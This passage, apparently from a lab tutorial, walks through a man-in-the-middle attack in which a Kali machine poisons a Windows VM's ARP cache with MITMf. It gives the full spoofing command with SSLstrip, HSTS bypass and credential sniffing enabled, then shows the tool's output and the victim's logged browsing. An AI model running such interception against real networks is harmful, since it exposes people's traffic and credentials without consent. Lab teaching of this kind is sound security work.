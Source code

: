 Back on our Kali machine, let's start the MITM attack by entering `python mitmf.py --arp --spoof --gateway 10.0.2.1 --target 10.0.2.5 -i eth0 --hsts` into the terminal. If it's successful you should see:
```html
root@kali:~/MITMf# python mitmf.py --arp --spoof --gateway 10.0.2.1 --target 10.0.2.5 -i eth0 --hsts

 __  __   ___   .--.          __  __   ___
|  |/  `.'   `. |__|         |  |/  `.'   `.      _.._
|   .-.  .-.   '.--.     .|  |   .-.  .-.   '   .' .._|
|  |  |  |  |  ||  |   .' |_ |  |  |  |  |  |   | '
|  |  |  |  |  ||  | .'     ||  |  |  |  |  | __| |__
|  |  |  |  |  ||  |'--.  .-'|  |  |  |  |  ||__   __|
|  |  |  |  |  ||  |   |  |  |  |  |  |  |  |   | |
|__|  |__|  |__||__|   |  |  |__|  |__|  |__|   | |
                       |  '.'                   | |
                       |   /                    | |
                       `'-'                     |_|

[*] MITMf v0.9.8 - 'The Dark Side'
|
|_ Net-Creds v1.0 online
|_ Spoof v0.6
|  |_ ARP spoofing enabled
|_ Sergio-Proxy v0.2.1 online
|_ SSLstrip v0.9 by Moxie Marlinspike online
|
|_ MITMf-API online
 * Running on http://127.0.0.1:9999/ (Press CTRL+C to quit)
|_ HTTP server online
|_ DNSChef v0.4 online
|_ SMB server online


```

Congratulations! You've just MITM'd your first target. You can verify the hack by jumping back on to the Windows machine and re-running the `ARP -a` command we ran before. You should see that the MAC address for the default gateway (`10.0.2.1`) has changed from `52-54-00-12-35-00` to our attackers MAC address `08-00-27-27-06-d4`!

You might have also noticed that there were no warnings that this happened on our target Windows machine - no flashing lights, sirens or any indication at all within the operating system.

## Initial analysis

On the Windows machine let's open the Edge browser (there's a shortcut on the bottom menu bar), then navigate to `http://www.bing.com` using the address bar, search for `avsforum` and select the top result. If you check back in the terminal window on the Kali machine, you will see that MITMf is logging out the HTTP traffic as it passes through:
```html
2017-02-15 19:19:36 10.0.2.5 [type:Edge-14 os:Windows 10] www.bing.com
2017-02-15 19:19:37 10.0.2.5 [type:Edge-14 os:Windows 10] www.bing.com
2017-02-15 19:19:37 10.0.2.5 [type:Edge-14 os:Windows 10] www.bing.com
2017-02-15 19:19:37 10.0.2.5 [type:Edge-14 os:Windows 10] www.avsforum.com
2017-02-15 19:19:43 10.0.2.5 [type:Edge-14 os:Windows 10] www.avsforum.com
2017-02-15 19:19:43 10.0.2.5 [type:Edge-14 os:Windows 10] www.avsforum.com
2017-02-15 19:19:43 10.0.2.5 [type:Edge-14 os:Windows 10] native.sharethrough.com
2017-02-15 19:19:43 10.0.2.5 [type:Edge-14 os:Windows 10] ad.crwdcntrl.net
2017-02-15 19:19:43 10.0.2.5 [type:Edge-14 os:Windows 10] tags.crwdcntrl.net
2017-02-15 19:19:43 10.0.2.5 [type:Edge-14 os:Windows 10] partner.googleadservices.com
2017-02-15 19:19:43 10.0.2.5 [type:Edge-14 os:Windows 10] www.avsforum.com
2017-02-15 19:19:43 10.0.2.5 [type:Edge-14 os:Windows 10] www.avsforum.com
2017-02-15 19:19:43 10.0.2.5 [type:Edge-14 os:Windows 10] www.avsforum.com
...etc.
```